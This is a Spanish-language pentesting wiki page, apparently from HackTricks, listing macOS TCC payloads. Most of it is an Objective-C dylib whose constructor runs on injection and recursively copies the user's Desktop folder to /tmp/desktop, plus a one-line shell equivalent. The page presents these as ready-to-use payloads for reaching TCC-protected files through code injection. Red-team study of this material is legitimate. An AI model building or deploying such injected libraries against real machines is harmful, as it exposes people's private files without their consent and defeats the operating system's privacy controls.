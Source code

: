 # Cargas útiles de macOS TCC

<details><summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

### Escritorio

* **Entitlement**: Ninguno
* **TCC**: kTCCServiceSystemPolicyDesktopFolder

{% tabs %}
{% tab title="ObjetiveC" %}
Copia `$HOME/Desktop` a `/tmp/desktop`.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
NSString *tmpPhotosPath = @"/tmp/desktop";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copia `$HOME/Desktop` a `/tmp/desktop`.
```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
{% endtab %}
{% endtabs %}
